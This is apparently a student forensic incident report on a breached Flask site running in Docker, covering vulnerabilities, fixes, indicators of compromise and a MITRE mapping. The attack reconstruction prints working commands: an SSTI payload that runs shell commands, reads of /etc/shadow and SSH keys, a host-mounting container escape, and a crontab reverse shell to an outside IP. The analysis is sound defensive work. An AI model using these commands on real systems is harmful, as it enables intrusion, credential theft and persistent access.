

# Non technical summary

The attacker managed to get remote access to the machine via an application error.
The app was not validating input correctly, allowing for code given by an attacker to be executed.
The attacker took advantage of this and created a permanent backdoor that allows them to enter the machine at any time.
The message asking for ransom is not real, no data was encrypted although it is uncertain which data was copied (we know of some files, however we can't be sure that only those were copied).

This attack did not compromise other machines and the backdoor was identified and can easily be removed, no data was lost but at least the app, security keys and machine hashed passwords were copied.

In order to reinstate the website it is just needed to restore the main webpage, no further changes were made by the attacker. Although we do not recommend this is done before all of the found vulnerabilities are fixed and thoroughly tested.
Detailed information about the discovered vulnerabilities can be found in section [Flask arbitrary remote code execution](#flask-arbitrary-remote-code-execution) and onwards.

Also, since the password hashes and access keys were leaked, all of them should be changed immediately.
If any password or key are reused elsewhere, they should be the first thing to be fixed, since the attacker already has the passwords it will be easy to infect the remaining of the infrastructure with potentially better attacks.
On the same note, all of the remaining web pages that were not on this VM should be revised as soon as possible for the flaws explained bellow, since it is very easy for the attacker to replicate this attack on the rest of the sites.

Although this attack did not result in great damage, it showed the attacker a trivial way to breach in. 
It is inevitable that other attempts at other VMs or this one will occur, possibly causing greater damage and leaking more sensitive information.
Therefore, it is of utmost importance to audit all of the infrastructure for similar security flaws.

# Technical Summary

There are several vulnerabilities in the machine. Some were exploited, others weren't.

## Flask arbitrary remote code execution

Related CWEs:

- [Static Code Injection](https://cwe.mitre.org/data/definitions/96.html)

The first to be exploited was a vulnerability in the 404 error handler (`def page_not_found(e):`) in `app.py` which allows arbitrary code execution on the web server.
The request URL is processed by `urllib.parse.unquote(request.url)` which [replaces %xx escapes with their single-character equivalent](https://docs.python.org/3/library/urllib.parse.html#urllib.parse.unquote) and then formats it into the template string itself. 
By default, arguments passed to flask templates are automatically escaped during rendering in order to protect against Cross-Site Scripting and Remote Code Execution attacks. 
Since the URL is inserted directly in the template this allows an attacker to inject arbitrary Python code that is executed during template rendering. 
This can be easily fixed by passing the request URL to flask as a template argument. Ex: 

```py
@app.errorhandler(404)
def page_not_found(e):
    template = '''
 <div class="center-content error">
 <h1>Oops! That page doesn't exist.</h1>
 <pre>{{ url }}</pre>
 </div>
 '''
    return render_template_string(template, 
		url=urllib.parse.unquote(request.url), 
		dir=dir, help=help, locals=locals), 
		404
```

## Bad administrator password management

Related CWEs:

- [Cleartext Storage of Sensitive Information](https://cwe.mitre.org/data/definitions/312.html) 
- [Password in Configuration File](https://cwe.mitre.org/data/definitions/260.html)
- [Use of Hard-coded Password](https://cwe.mitre.org/data/definitions/259.html)

The administrator username and passwords are stored in cleartext in `app.py`

```py
ADMIN_USER='admin'
ADMIN_PASS='75debe8ecad2b043072ce03d1dc3e635'
```

If an attacker gains access to these file the information can be read and used by an attacker. 
This is actively exploited in this attack. 
After the administrator credentials are obtained he logs in using these and uploads the ramsom image to the website.
This can be mitigated by storing only a hash of the password and comparing the hash of the provided password with the one stored. For additional security administrator logins should only be allowed from ips inside the company's private network.
Of course, the storage should not be the program itself but in a secure database outside of it.

## Cleartext Transmission of Sensitive Information

Related CWEs:
- [Cleartext Transmission of Sensitive Information](https://cwe.mitre.org/data/definitions/319.html)

Our website does not use HTTPS. This means all data including sensitive information is by default transmitted in a clear format without any sort of encryption and can be read by an attacker.

To fix this HTTPS should be setup in flask. Relevant information on how to do this can be found [here](https://werkzeug.palletsprojects.com/en/2.0.x/serving/#ssl).

## Bad Cookie Practices

Related CWEs:

- [Sensitive Cookie Without 'HttpOnly' Flag](https://cwe.mitre.org/data/definitions/1004.html)
- [Cleartext Storage of Sensitive Information in a Cookie](https://cwe.mitre.org/data/definitions/315.html)

Cookies in our website are used to authenticate and authorize a user as a `guest` or an `admin` so they contain sensitive information. It's extremely important for these to be as secure as possible, as they can allow an attacker to gain privileges he shouldn't have.

Our cookies do not have the `HttpOnly` flag enabled which means they are accessible from `JavaScript` and thus vulnerable to `Cross-Site Scripting` attacks. 
Flask allows this to be easily set when setting a Cookie:
```py
# https://flask.palletsprojects.com/en/2.0.x/api/#flask.Response.set_cookie
response.set_cookie("cookie_name", value = "cookie_value", httponly = True)
```

Our cookies currently contain 2 parts. A username and signature of said username based on a server key. This leaves the username encoded in base64, effectively cleartext. The username should also be protected as to not divulge any usefull information to a possible attacker.

## Execution with Unnecessary Privileges

Related CWEs:

- [Execution with Unnecessary Privileges](https://cwe.mitre.org/data/definitions/250.html)

The docker container containing the website is running with `root` privileges. 
This means that if an attacker gains access to the container he has full access to do whatever he pleases. 
Anything from installing packages to modifying protected files, etc.
The container should run with an unique user with minimum privileges. 
The following lines are found commented in the `Dockerfile`

```txt
#RUN useradd -Mr app
#USER app
```

Simply uncommenting these lines would be enough to mitigate this.

## Docker Container escaping

The [Docker Daemon](https://docs.docker.com/get-started/overview/#the-docker-daemon) is configured to also [bind](https://docs.docker.com/engine/reference/commandline/dockerd/#daemon-socket-option) to `tcp://0.0.0.0:2376` without tls enabled. 
This means anyone with access to this port can have full Docker access on the host. 
The website's `Dockerfile` also happens to contain `ENV DOCKER_HOST=tcp://172.17.0.1:2376`. 
If an attacker has remote access and is able to install docker inside the container (like our attacker did) he will **by default** have access to the Docker Daemon on the host (outside the container). 
The attacker has escaped the container and now has full access to the host machine.

To prevent this we can disable the `tcp://0.0.0.0:2376` remote socket or secure it with TLS (a guide on how to do this can be found [here](https://www.cloudsavvyit.com/15079/how-to-secure-dockers-tcp-socket-with-tls/)). 
A TLS secure socket requires the client to have a set of certificates and keys in order to communicate with the Daemon, something that if properly configured, an attacker with remote access to a container wouldn't have.

# The Attack

## The Admin Login

The attack begins by trying to guess the `admin` password through the use of a dictionary-attack, but after repeatedly failing he eventually gives up. Afterwards, he tries to access the `/upload` page which redirects him back to the home page because he's not logged in as `admin`.

## The Cookies
Our attacker's next target was the cookies.

In the first 2 attempts the auth cookies is deleted. Presumably to figure out if the website always sets it when it doesn't exist (it does). 
Subsequently he tried modifying the cookies and reloading the page. Also presumably looking for something to exploit.
The following modifiyed cookies are tried:

**Note**: For reasons unclear to us every cookie in the following list was tried 2 times in a row.
- `auth=dXNlcm5hbWU9Z3Vlc3SAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAcCZ1c2VybmFtZT1hZG1pbg==.L4WHdSWa5+ASrB+CXLsmZ/EUClzunq26cw0KG0q7LEM=`
- `auth=dXNlcm5hbWU9Z3Vlc3SAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB4JnVzZXJuYW1lPWFkbWlu.L4WHdSWa5+ASrB+CXLsmZ/EUClzunq26cw0KG0q7LEM=`
- `auth=dXNlcm5hbWU9Z3Vlc3SAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAIAmdXNlcm5hbWU9YWRtaW4=.L4WHdSWa5+ASrB+CXLsmZ/EUClzunq26cw0KG0q7LEM=`
- `auth=dXNlcm5hbWU9Z3Vlc3SAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAiCZ1c2VybmFtZT1hZG1pbg==.L4WHdSWa5+ASrB+CXLsmZ/EUClzunq26cw0KG0q7LEM=`
- `auth=dXNlcm5hbWU9Z3Vlc3SAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACQJnVzZXJuYW1lPWFkbWlu.L4WHdSWa5+ASrB+CXLsmZ/EUClzunq26cw0KG0q7LEM=`
- `auth=dXNlcm5hbWU9Z3Vlc3SAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAJgmdXNlcm5hbWU9YWRtaW4=.L4WHdSWa5+ASrB+CXLsmZ/EUClzunq26cw0KG0q7LEM=`
- `auth=dXNlcm5hbWU9Z3Vlc3SAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAoCZ1c2VybmFtZT1hZG1pbg==.L4WHdSWa5+ASrB+CXLsmZ/EUClzunq26cw0KG0q7LEM=`
- `auth=dXNlcm5hbWU9Z3Vlc3SAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACoJnVzZXJuYW1lPWFkbWlu.L4WHdSWa5+ASrB+CXLsmZ/EUClzunq26cw0KG0q7LEM=`
- `auth=dXNlcm5hbWU9Z3Vlc3SAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAALAmdXNlcm5hbWU9YWRtaW4=.L4WHdSWa5+ASrB+CXLsmZ/EUClzunq26cw0KG0q7LEM=`
- `auth=dXNlcm5hbWU9Z3Vlc3SAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAuCZ1c2VybmFtZT1hZG1pbg==.L4WHdSWa5+ASrB+CXLsmZ/EUClzunq26cw0KG0q7LEM=`
- `auth=dXNlcm5hbWU9Z3Vlc3SAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADAJnVzZXJuYW1lPWFkbWlu.L4WHdSWa5+ASrB+CXLsmZ/EUClzunq26cw0KG0q7LEM=`
- `auth=dXNlcm5hbWU9Z3Vlc3SAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAMgmdXNlcm5hbWU9YWRtaW4=.L4WHdSWa5+ASrB+CXLsmZ/EUClzunq26cw0KG0q7LEM=`
- `auth=dXNlcm5hbWU9Z3Vlc3SAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0CZ1c2VybmFtZT1hZG1pbg==.L4WHdSWa5+ASrB+CXLsmZ/EUClzunq26cw0KG0q7LEM=`
- `auth=dXNlcm5hbWU9Z3Vlc3SAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADYJnVzZXJuYW1lPWFkbWlu.L4WHdSWa5+ASrB+CXLsmZ/EUClzunq26cw0KG0q7LEM=`
- `auth=dXNlcm5hbWU9Z3Vlc3SAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAOAmdXNlcm5hbWU9YWRtaW4=.L4WHdSWa5+ASrB+CXLsmZ/EUClzunq26cw0KG0q7LEM=`
- `auth=dXNlcm5hbWU9Z3Vlc3SAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6CZ1c2VybmFtZT1hZG1pbg==.L4WHdSWa5+ASrB+CXLsmZ/EUClzunq26cw0KG0q7LEM=`
- `auth=dXNlcm5hbWU9Z3Vlc3SAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwJnVzZXJuYW1lPWFkbWlu.L4WHdSWa5+ASrB+CXLsmZ/EUClzunq26cw0KG0q7LEM=`

For every cookie in the list above the server returned the corrected `guest` cookie except for the last one where no cookie was returned although it's not clear to us why this happened since we cannot reproduce this.
After failing again the attacker moves on. 

## The Page Not Found Handler

The attacker then decides to try a couple of non existing endpoints `/private` `/fdssfdf` and `test`. 
Presumably looking for a chance to inject code. 
Since the page not found error response included the requested endpoint the attacker then tested if an XSS attack is possible by acessing `/test&lt;script&gt;alert(&quot;hello&quot;)&lt;/script&gt;`
which sucedded since the returned page contained the injected code. This is not a real XSS vulnerability however since this content is not displayed to other users.

- `/private` nothing. possibly looking for injection vulnerabilities
- `/fdssfdf` nothing. possibly looking for injection vulnerabilities
- `/test` nothing. possibly looking for injection vulnerabilities
- `/test<script>alert("hello")</script>` xss injection in the form of an hello broswer pop-up
- `/test{{ 1+1 }}` possibly testing remote code execution
- `/test{{ __globals__ }}` tries to obtain information about the app and system
- `/test{{ request.application}}` tries to obtain information about the app and system
- `/test{{ request.application.__globals__ }}` tries to obtain information about the app and system
- `/test{{ (request.application.__globals__.__builtins__.__import__('os')['popen']('id') }}` internal server error (probably looking for a vulnerability here)
	+ From this point on, the attacker knows how to run commands. To make this reproduction more readable the boilerplate is ommited.
	+ Commands are ran by accessing `/test{{ (request.application.__globals__.__builtins__ .__import__('os')['popen']('<command>') }}`, where `<command>` is what the attacker executed (the strings on the remaining of this list).
- `id` uid=0(root) gid=0(root) groups=0(root), which indicates that the container is running with root previleges.
- `ls` lists the contens of `/app` (inside the docker container)
- `cat app.py` fetches the app itself
- `cat auth.py` seeing that `app.py` imports this file, fetches it's contents as well
- `cat /etc/passwd`
- `cat /etc/shadow`
- `cat /proc/mount` fetches the devices mounted. Possibly looking for drives or docker containers.
- `find / ` lists all the file system
- `touch .a` create an empty file called `.a`
- `ls -la .a` Tests permissions for file, -rw-r--r-- 1 root root
- `ls -la /tmp/.a` tests permissions for parent directories
- `ls -la /root/`
- `ls /home/*` lists all users (?)
- `find / -perm -4000` checks for which files on the file system the user has r and w permissions
- `env` list environment variables
- `docker ps` list running docker containers
- `apt update`
- `apt install -y docker.io ` install docker inside the container
- `docker ps` list running docker containers (the attacker realizes he can see it's own container and thus can escape it)
- `docker run --rm -t -v /:/mnt busybox /bin/ls /mnt`
- `docker run --rm  -v /:/mnt busybox /bin/find /mnt/`
- `find / -perm -4000 ` finds which files have `setuid`.
- `docker run --rm  -v /:/mnt python python -c "f=open('/mnt/etc/crontab', 'a'); f.write('*/10 * * * * root 0<&196;exec 196<>/dev/tcp/96.127.23.115/5556; sh <&196 >&196 2>&196'); f.close(); print('done')" 2>&1` Inject reverse shell payload in crontab file (this doesn't work properly) so no reverse shell access
- `docker run --rm -v /:/mnt busybox cat /mnt/root/.bash_history` In the following commands the attacker just makes a temporary container to read files. The container is set to be deleted in the end of every comand.
- `docker run --rm  -v /:/mnt busybox cat /mnt/root/.ssh/id_rsa  /mnt/root/.ssh/id_rsa.pub`
- `docker run --rm  -v /:/mnt busybox ls /mnt/home `
- `docker run --rm  -v /:/mnt busybox cat /mnt/home/dev/.ssh/id_rsa /mnt/home/dev/.ssh/id_rsa.pub `
- `docker run --rm  -v /:/mnt busybox cat /mnt/etc/passwd`
- `docker run --rm  -v /:/mnt busybox cat /mnt/etc/shadow`
- `docker run --rm  -v /:/mnt busybox cat /mnt/etc/mysql/debian.cnf /mnt/etc/mysql/my.cnf`
- `docker run --rm  -v /:/mnt busybox cat /mnt/etc/ssl/private/\\*`
- `docker run --rm  -v /:/mnt busybox cat /mnt/var/log/\\*`
- `docker run --rm  -v /:/mnt busybox cat /var/lib/docker/containers/1bc8170248006261556c8e9316704cdef21d3ea03d5ebdca439a4043dfb15b25/1bc8170248006261556c8e9316704cdef21d3ea03d5ebdca439a4043dfb15b25-json.log`
- `/login` sucessfull admin login
- `/upload` uploads the ransomware notice.
- ` echo "<body bgcolor="black"><center></center></body>" > /app/templates/index.html` sets the page as the ransomware png.
- `docker restart app` restart the website container so the initial page changes take effect

It is unclear wether the RSA keys were used to gain external access to the machine although unlikely.

## Indicators of Compromise

IOCs refer to data that indicates a system may have been infiltrated by a cyber threat. They provide cybersecurity teams with crucial knowledge after there has been a breach of data or another breach in security. These indicators can reveal that an attack has happened, what tools were used in the attack, and who’s behind them. They are typically collected from software, including antivirus and antimalware systems.

The attacker left some traces throughout the attack to the VM and during the forensic analysis there were some common indicators of compromise, for exemple:
- High authentication failures: In account takeovers, attackers use automation to authenticate using phished credentials. A high rate of authentication attempts might indicate than someone has stolen credentials and is attempting to find an account that gives access to the network. Mainly caused by the dictionary attack.
- Lots of requests on important files: Without a high-privileged account, an attacker is forced to explore different resources and find the right vulnerability to access files.
- Suspicious configuration changes: You may not even know, but changing configurations on files, servers, and devices could give the attacker a second backdoor to the network. Changes could also add vulnerabilities for malware to exploit.
- Unusual outbound network traffic: When an intruder tries to extract data from your network or when an infected system relays information to a command-and-control server, unusual outbound network traffic may be detected.

## Attack matrix

This was based on [Mitree attack matrix](https://attack.mitre.org/matrices/enterprise/linux/)
The details on the context of these matrix elements are omited for better readability.
Please refer to the remaining of the report for better context and details.

The initial access was made via [exploit of public facing application (T1190)](https://attack.mitre.org/techniques/T1190/).

The execution is a mix of [python command and scripting interpreter (T1059.006)](https://attack.mitre.org/techniques/T1059/006/) and [scheduled task/job: CRON (T1053.003)](https://attack.mitre.org/techniques/T1053/003/).

Pressistence was made via a [scheduled task/job: CRON (T1053.003)](https://attack.mitre.org/techniques/T1053/003/), by adding a job to the crontab file.

Previlege escalation 

Regarding defense evasion, we couldn't find anything. However, we suspect of [clear command history (T1070.003)](https://attack.mitre.org/techniques/T1070/003/), since a reverse shell was installed but no history could be found. Even using disk recovery tools ([extundelete](http://extundelete.sourceforge.net/)) no deleted files were found.

Credential access was obtained via [password spraying (T1110.003)](https://attack.mitre.org/techniques/T1110/003) and [password guessing (T1110.001)](https://attack.mitre.org/techniques/T1110/001).
*Password dumping* was also done on [/etc/passwd and /etc/shadow (T1003.008)](https://attack.mitre.org/techniques/T1003/008).
The first to be used was from [credentials in file  system (T1552.001)](https://attack.mitre.org/techniques/T1552/001).

Discovery

Lateral Movement is achieved through [SSH (T1021.004)](https://attack.mitre.org/techniques/T1021/004/), with the reverse shell.

Collection was done through [data in local file system (T1005)](https://attack.mitre.org/techniques/T1005). Several files, namely `/etc/shadow`, `/etc/passwd` and all of the app's files, were printed to the error page.

Command and Control was achieved through [Two Way Communication (T1102.003)](https://attack.mitre.org/techniques/T1102/003), via reverse shell.

Exfiltration was made primarily through [unencrypted non-C2 protocol (T1048.003)](https://attack.mitre.org/techniques/T1048/003/), by seeing the errors with data in the error page.
Could be possible that [exfiltration over C2 channel (T1041)](https://attack.mitre.org/techniques/T1041/) was achieved through the reverse shell.

The impact was simply an [external defacement (T1491.002)](https://attack.mitre.org/techniques/T1491/002/).
The main page was replaced by one claiming to have infected the machine with ransomware.



# Other tests

In this section we will present tests that were made and reported no errors.

- The packages are up to date, as they should be.
- Fetched differences between snapshots before and after the attack, the only differences were the ones gathered through the packet captures.
- Scanned the disk for deleted files, none were found.

# Acknowledgements

- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://pravinponnusamy.medium.com/reverse-shell-payloads-969366fa5aff
- https://www.netsparker.com/blog/web-security/understanding-reverse-shells/
- https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/
- https://docs.docker.com/engine/reference/commandline/dockerd/
- https://www.cloudsavvyit.com/15079/how-to-secure-dockers-tcp-socket-with-tls/
- https://www.cloudsavvyit.com/11185/how-and-why-to-use-a-remote-docker-host/
- https://www.base64decode.org/
- https://developer.mozilla.org/pt-BR/docs/Web/HTTP/Headers/Set-Cookie
- https://cwe.mitre.org
- https://www.freecodecamp.org/news/web-security-hardening-http-cookies-be8d8d8016e1/
- https://cybersecurity.att.com/blogs/security-essentials/network-traffic-analysis-using-wireshark
- https://werkzeug.palletsprojects.com/en/2.0.x/serving/#ssl
- https://flask.palletsprojects.com/en/2.0.x/api/#flask.Response.set_cookie
- https://attacksimulator.com/blog/how-to-recognize-indicators-of-compromise/
- https://www.fortinet.com/resources/cyberglossary/indicators-of-compromise
- https://docs.python.org/3/library/urllib.parse.html#urllib.parse.unquote
- https://docs.docker.com

# Participation

João Felisberto 98003: Attack analysis, Disk analysis, Attack matrix, Attack description
Rúben Santos Castelhano 97688: Attack analysis, Packet analysis, Attack description, Vulnerabilities found and their analysis
Vasco Santos 98391: Cookie analysis, Indicators of Compromise, CWE's
